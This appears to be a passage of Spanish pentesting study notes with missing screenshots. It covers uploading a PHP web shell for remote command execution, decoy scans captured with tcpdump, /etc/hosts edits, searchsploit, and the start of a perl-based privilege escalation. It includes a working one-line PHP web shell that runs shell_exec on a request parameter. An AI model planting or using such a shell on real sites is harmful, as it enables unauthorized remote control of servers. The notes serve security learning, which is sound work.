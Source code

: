 Esto se utiliza para subir este fichero php a una web que funcione con este lenguaje para después acceder a dicho documento desde algún directorio de uploads de la web; y así ganar ejecución remota de comandos:
```python
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Luego podemos acceder a este fichero malicioso desde la máquina víctima poniendo lo siguiente en la URL seguido del comando a ejecutar:
![[Pasted image 20230218112346.png]]
## TCPDUMP PARA INTERCEPTAR PAQUETES DENTRO DE LA CONEXIÓN

![[Pasted image 20221217112455.png]]
También podemos guardar con tcpdump las conexiones por una determinada interfaz y analizarlas con wireshark. Por ejemplo hacemos un escaneo:
![[Pasted image 20230412194342.png]]
Si guardamos esto en un fichero .cap para analizarlo con wireshark, veremos que en este escaneo además de nuestra IP también se habrá enviado otros paquetes desde la IP 192.168.0.232 que hemos proporcionado como señuelo:
![[Pasted image 20230412194600.png]]
![[Pasted image 20230412194623.png]]
## MODIFICAR EL FICHERO /ETC/HOSTS PARA AÑADIR UN DOMINIO QUE NO NOS FUNCIONA
Podemos tener una URL que no nos carga en el navegador:

![[Pasted image 20221217112601.png]]

Entonces ahora tenemos que indicar que la IP apunte a este subdominio, tal y como hicimos antes:

![[Pasted image 20221217112608.png]]
Entonces ahora si pegamos la dirección que se nos indica en la web, accederemos a un menú de registro:
![[Pasted image 20221217112615.png]]
## **HERRAMIENTA SEARCHSPLOIT**
Podemos buscar exploit de alguna vulnerabilidad, por ejemplo de una versión ftp:
![[Pasted image 20221217112646.png]]
Vamos a descargarnos el primer exploit desde esta herramienta utilizando la opción -m:
![[Pasted image 20221217112653.png]]

## ESCALADA CON USR/BIN/PERL SETUID:

Ahora vamos a escalar privilegios, para ello vamos a ejecutar el comando getcap -r /2>/dev/null, donde debemos fijarnos en la segunda fila porque dice que perl puede ejecutar cosas con plenos poderes:
